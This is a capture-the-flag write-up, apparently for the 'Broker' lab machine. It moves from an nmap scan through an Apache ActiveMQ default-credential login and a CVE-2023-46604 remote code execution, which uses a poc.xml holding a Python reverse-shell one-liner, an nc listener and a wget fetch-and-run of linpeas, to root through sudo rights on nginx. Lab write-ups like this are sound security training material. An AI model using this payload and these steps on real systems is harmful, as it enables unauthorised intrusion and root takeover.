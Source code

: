 ```
PORT STATE SERVICE REASON VERSION

22/tcp open ssh syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey:

| 256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)

| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=

| 256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)

|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM

80/tcp open http syn-ack ttl 63 nginx 1.18.0 (Ubuntu)

|_http-server-header: nginx/1.18.0 (Ubuntu)

| http-auth:

| HTTP/1.1 401 Unauthorized\x0D

|_ basic realm=ActiveMQRealm

|_http-title: Error 401 Unauthorized

1883/tcp open mqtt syn-ack ttl 63

| mqtt-subscribe:

| Topics and their most recent payloads:

| ActiveMQ/Advisory/Consumer/Topic/#:

|_ ActiveMQ/Advisory/MasterBroker:

5672/tcp open amqp? syn-ack ttl 63

|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65

| fingerprint-strings:

| DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:

| AMQP

| AMQP

| amqp:decode-error

|_ 7Connection from client using unsupported AMQP attempted

8161/tcp open http syn-ack ttl 63 Jetty 9.4.39.v20210325

| http-auth:

| HTTP/1.1 401 Unauthorized\x0D

|_ basic realm=ActiveMQRealm

|_http-title: Error 401 Unauthorized

|_http-server-header: Jetty(9.4.39.v20210325)

40307/tcp open tcpwrapped syn-ack ttl 63

61613/tcp open stomp syn-ack ttl 63 Apache ActiveMQ

| fingerprint-strings:

| HELP4STOMP:

| ERROR

| content-type:text/plain

| message:Unknown STOMP action: HELP

| org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP

| org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)

| org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)

| org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)

| org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)

| org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)

|_ java.lang.Thread.run(Thread.java:750)

61614/tcp open http syn-ack ttl 63 Jetty 9.4.39.v20210325

|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E

| http-methods:

| Supported Methods: GET HEAD TRACE OPTIONS

|_ Potentially risky methods: TRACE

|_http-title: Site doesn't have a title.

|_http-server-header: Jetty(9.4.39.v20210325)

61616/tcp open apachemq syn-ack ttl 63 ActiveMQ OpenWire transport

| fingerprint-strings:

| GenericLines, GetRequest, HTTPOptions, NULL, RTSPRequest:

| ActiveMQ

| TcpNoDelayEnabled

| SizePrefixDisabled

| CacheSize

| ProviderName

| ActiveMQ

| StackTraceEnabled

| PlatformDetails

| Java

| CacheEnabled

| TightEncodingEnabled

| MaxFrameSize

| MaxInactivityDuration

| MaxInactivityDurationInitalDelay

| ProviderVersion

|_ 5.15.15
```

# port 80
requires basicauth
admin:admin works to log in
This port runs Apache ActiveMQ, which is a message broker. A message broker takes a message from a service, transforms it into another format and sends it to another service, reducing the awareness that the two services have to have about each other.

Clicking on manage ActiveMQ broker sends us to the next interface where we can find the version: 5.15.15
Checking the version shows that there is a severe CVE for this. This blog shows the details:
https://www.trendmicro.com/en_us/research/23/k/cve-2023-46604-exploited-by-kinsing.html

```
https://github.com/NKeshawarz/CVE-2023-46604-RCE
```

modify the poc.xml to look like this, I'm using a python revshell here:
```
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>/bin/bash</value>
                <value>-c</value>
                <value>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno()>
            </list>
            </constructor-arg>
        </bean>
    </beans>


```

start a server and listener in the folder with the poc:
```
sudo nc -lnvp 9001
sudo python3 -m http.server 80
```

fire the exploit like this:
```
python3 CVE-2023-46604-RCE.py -i <targetIP> -p 61616 -u http://<attackboxIP>/poc.xml
```

this gives me a shell as activemq
now head to the activemq home folder and grab the user flag.

# PE

Hosting linpeas from my box, grab it like this:
```
wget http://<ip>:80/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh
```

checking sudo -l :
```
sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx

```

```
https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406
```

We can simply follow the steps in the github repo. Create a malicious config that runs as root and listens for PUT requests on port 1339. Files created this way will be owned by root. Then create a SSH key, and upload it via nginx to the authorized keys file. Now we can grab the ssh key, put it in a file and run 
ssh root@ip -i id_rsa.pub to get root. 
